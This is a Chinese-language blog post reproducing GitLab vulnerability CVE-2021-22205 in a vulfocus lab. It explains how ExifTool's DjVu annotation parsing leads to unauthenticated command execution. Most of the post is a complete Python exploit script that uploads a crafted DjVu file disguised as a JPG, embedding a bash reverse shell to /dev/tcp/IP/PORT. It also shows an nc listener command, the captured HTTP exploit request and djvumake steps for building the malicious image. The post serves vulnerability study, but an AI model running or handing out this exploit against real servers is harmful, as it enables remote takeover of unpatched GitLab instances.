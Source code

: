 ```yaml
---
title: GitLab漏洞-CVE-2021-22205
date: 2024-03-11 00:46 +0800
tags: [cms, GitLab, CVE]
tags: [cms, 服务攻防]
img_path: /img/AD/
---
```

## 0x00 漏洞简介

在 GitLab CE/EE 中发现了一个问题，影响了从 11.9 开始的版本。GitLab 没有正确验证传递给文件解析器的图像文件，这导致了未经身份验证的远程命令执行。

**漏洞影响版本：**

> 11.9 <= Gitlab CE/EE < 13.8.8
> 
> 13.9 <= Gitlab CE/EE < 13.9.6
> 
> 13.10 <= Gitlab CE/EE < 13.10.3
{: .prompt-info}

#### 1、gitlab介绍

GitLab是由GitLabInc.开发，使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

![截图](53f251f94670a4aec3de59c5c0d2912f.png)

可以看到在gitlab的组成中包含的各种组件，可以通过两个关键入口访问，分别是HTTP/HTTPS(TCP 80,443)和SSH(TCP 22)，请求通过nginx转发到Workhorse，然后Workhorse和Puma进行交互，这里我们着重介绍下通过Web访问的组件GitLab Workhorse。

> Puma 是一个用于 Ruby 应用程序的简单、快速、多线程和高度并发的 HTTP 1.1 服务器，用于提供GitLab网页和API。从 GitLab 13.0 开始，Puma成为了默认的Web服务器，替代了之前的Unicorn。而在GitLab 14.0中，Unicorn 从Linux 包中删除，只有Puma可用。

而漏洞的成因就在于`Gitlab Workhorse`处理文件的过程中。

#### 2、漏洞成因

当我们利用接口`/uploads/user`上传图像文件时，`GitLab Workhorse`会将扩展名为`jpg、jpeg、tiff`文件传递给`ExifTool`。而`ExifTool`作用在于删除其中不合法的标签。而`ExifTool`在解析文件的时候会忽略文件的扩展名，尝试根据文件的内容来确定文件类型，其中支持的类型有DjVu。

> DjVu是由AT&T实验室自1996年起开发的一种图像压缩技术，已发展成为标准的图像文档格式之一;
> 
> ExifTool是一个独立于平台的Perl库，一款能用作多功能图片信息查看工具。可以解析出照片的exif信息，可以编辑修改exif信息，用户能够轻松地进行查看图像文件的EXIF信息，完美支持exif信息的导出。
{: .prompt-info}

关键在于ExifTool在解析DjVu注释的ParseAnt函数中存在漏洞，所以我们就可以通过构造DjVu文件并插入恶意注释内容将其改为jpg后缀上传，因为gitlab并未在这个过程中验证文件内容是否是允许的格式，最后让ExifTool以DjVu形式来解析文件，造成了ExifTool代码执行漏洞。

以上的内容参考自： [AirSky](https://mp.weixin.qq.com/s/Y4mGVhbc3agp1adnUs1GmA)

## 0x01 漏洞复现

我是利用vulfocus搭建环境进行复现。

这里,我们可以直接利用网上开源的一些脚本:

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-
import requests
from bs4 import BeautifulSoup

class Exploit():
    __info__ = {
        'name': 'CVE-2021-22205',
        'desription': 'gitlab 未授权远程命令执行',
        'references': ['https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22205'],
        'devices': ['gitlab',
                    '11.9=< version <13.8.8',
                    '13.9=< version <13.9.6',
                    '13.10=< version <13.10.3'
        ],
    }


    target = "192.168.31.38"
    port = 43536
    reverseShell = "echo '/bin/bash -i >& /dev/tcp/{}/{} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh"

    def exploit(self):
        proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}
        session = requests.Session()
        session.proxies = proxies
        requests.packages.urllib3.disable_warnings()
        url = "http://{}:{}".format(self.target, self.port)
        try:
            r = session.get(url.strip("/") + "/users/sign_in", verify=False)
            soup = BeautifulSoup(r.text, features="lxml")
            token = soup.findAll('meta')[16].get("content")
            data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{" + self.reverseShell + "} . \\\n\" b \") )                                                                                                                                                                                                                                                                                                                                                                                                                                     \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"
            headers = {
                "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
                "Connection": "close",
                "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
                "X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate"}
            flag = 'Failed to process image'
            req = session.post(url.strip("/") + "/uploads/user", data=data, headers=headers, verify=False)
            print(session.body)
            x = req.text
            if flag in x:
                return "success!!!"
            else:
                print("[-] Vuln Check Failed... ...")
                return 'failed'
        except Exception as error:
            print(error.with_traceback())
            print("[-] Vuln Check Failed... ...")
            return 'failed'

    def run(self):
        res = self.exploit()
        return res

if __name__ == '__main__':
    exploit = Exploit()
    '''
    在GitLab CE/EE中发现一个问题，从11.9开始影响所有版本。
    GitLab没有正确地验证传递给文件解析器的图像文件，导致远程命令执行
    此脚本利用此漏洞进行反弹shell, 测试前请配置好下面的 listenIp 和 listenPort 参数
    '''
    exploit.target= "192.168.31.38" # 目标服务器
    exploit.port = 43536      # 目标端口
    listenIp = "192.168.31.38" # 本地监听ip
    listenPort = "6666"   # 本地监听端口
    exploit.reverseShell = exploit.reverseShell.format(listenIp,listenPort)
    result = exploit.run()
    print(result)

```
{: file='1.py'}

这里,我们只需要修改一下利用地址和端口 ；还有本地监听的地址和端口。

然后，我们需要利用nc监听本地端口：

```bash
nc.exe -lvnp 6666
```

然后启动脚本：

```bash
python 1.py
```

之后，就可以可以看到shell的反弹了。

## 0x02 脚本代码分析

这里，我截下流量包的图片，以便我们可以看到脚本代码中发送的流量情况：

```sass
POST /uploads/user HTTP/1.1
Host: 192.168.31.38:43536
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5
X-CSRF-Token: BYGxDBZjz3NG0PKDN1lK1fMagmzwzsPNyod+zPUBYlYL9rGDbXJDAS6JJCBMGxQNKD/PIpool1nVPBv159zTew==
Cookie: _gitlab_session=addf2bf61cd6e800858774f8cb8ea0a7; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkltUTVOekk0TVRZMUxUTXdObU10TkRkaVpDMWlOemN6TFRSaE5XWmxNREpqTXpWbU5DST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--70dccc24ff47022870ee986c26295ba243fc285e
Content-Length: 971


------WebKitFormBoundaryIMv3mxRg59TkFSX5
Content-Disposition: form-data; name="file"; filename="test.jpg"
Content-Type: image/jpeg

AT&TFORM  疍JVMDIRM   .?    F   ?蘅?!葢N? 亿堣k鍰,q領觧暯⒚"?FORM   ^DJVUINFO   
   d  INCL   shared_anno.iff BG44    J  婃岜7?*? BG44   鶡BG44   
FORM   DJVIANTa  P(metadata
	(Copyright "\
" . qx{echo '/bin/bash -i >& /dev/tcp/192.168.31.38/6666 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh} . \
" b ") )                                                                                                                                                                                                                                                                                                                                                                                                                                     

------WebKitFormBoundaryIMv3mxRg59TkFSX5--
```
{: file='数据包'}

![截图](8f00070c63b3c49d089da52c0b7ed354.png)

然后，从图中可以看到，这里我们利用的上传接口确实是`/uploads/user`，除此之外，代码本身还通过获取`X-CSRF-Token`和未登录`Session`来进行未授权访问。

而上传的数据包内容，则是一个DjVu文件的内容格式，其中还包含了我们注释的恶意代码内容，以便让`ExifTool`完成最终的代码执行。

当然，这里我们也已直接使用`DjVu`来创建我们的恶意代码。用法：（在kali中）

```shell
sudo apt-get install -y djvulibre-bin
```

准备好恶意文本：

```sass
(metadata
	(Copyright "\
"  qx{echo '/bin/bash -i >& /dev/tcp/{}/{} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh"} . \
" b ") )
```{: file='cve.txt'}

制作`DjVu`图片格式：

```shell
djvumake rce.djvu INFO=0,0 BGjp=/dev/null ANTa=rce.txt && mv rce.djvu rce.jpg
```

最终jpg里的内容为：
![截图](20240311003341298.png)

